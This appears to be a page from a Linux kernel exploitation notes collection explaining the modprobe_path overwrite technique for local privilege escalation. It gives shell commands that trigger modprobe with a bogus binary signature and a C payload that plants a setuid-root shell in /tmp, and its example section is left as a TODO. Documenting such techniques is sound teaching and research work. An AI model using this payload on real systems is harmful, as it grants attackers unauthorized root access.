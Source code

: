```yaml
---
description: A simple way to pop a shell
---
```


# Overwriting modprobe\_path

The kernel can request that a kernel module is loaded at runtime. If it does so, it will try to call [`request_module`](https://elixir.bootlin.com/linux/v6.16/source/kernel/module/kmod.c#L115), which will spawn the `modprobe` tool using [`call_modprobe`](https://elixir.bootlin.com/linux/v6.16/source/kernel/module/kmod.c#L71). `modprobe` is a userspace program that runs with root privileges, finds the required kernel module binary on filesystem and loads it.

The path to `modprobe` is in `modprobe_path`, a global variable in the kernel. We can read the value as a non-root user through `/proc/sys/kernel/modprobe`, with the default value being `/sbin/modprobe`.

If we can overwrite `modprobe_path` with another binary, e.g. `/tmp/exec`, this will be run with root privileges! That makes it **very** easy. To trigger modprobe, the easiest way is to execute a binary with an unknown signature:

```bash
echo -e '\xff\xff\xff\xff' > /tmp/fake
chmod +x /tmp/fake
/tmp/fake
```

To identify what program should be run to handle the signature, the kernel uses [`binfmt`](https://elixir.bootlin.com/linux/v6.1/source/fs/exec.c#L1742) (code is slightly different in newer versions). This is run by `request_module`, but the signature [must contain at least one non-printable character](https://elixir.bootlin.com/linux/v6.1/source/fs/exec.c#L1739).

The approach, therefore is simple. First compile a `/tmp/hijack` with source:

```c
int main()
{
    system("cp /usr/bin/sh /tmp/sh");
    system("chown root:root /tmp/sh");
    system("chmod 4755 /tmp/sh");
}
```

There are lots of possible payloads, but the end result is the same. This will copy `/bin/sh` to `/tmp/sh` and make it SUID. Now we create a file with an unknown signature:

```
echo -n -e '\xff\xff\xff\xff' > /tmp/fake
chmod +x /tmp/fake
```

Finally, overwrite `modprobe_path` to `/tmp/hijack`. When we execute `/tmp/fake` as a regular user, the kernel will spawn `/tmp/hijack` with root privileges and execute it!

## Example

TODO
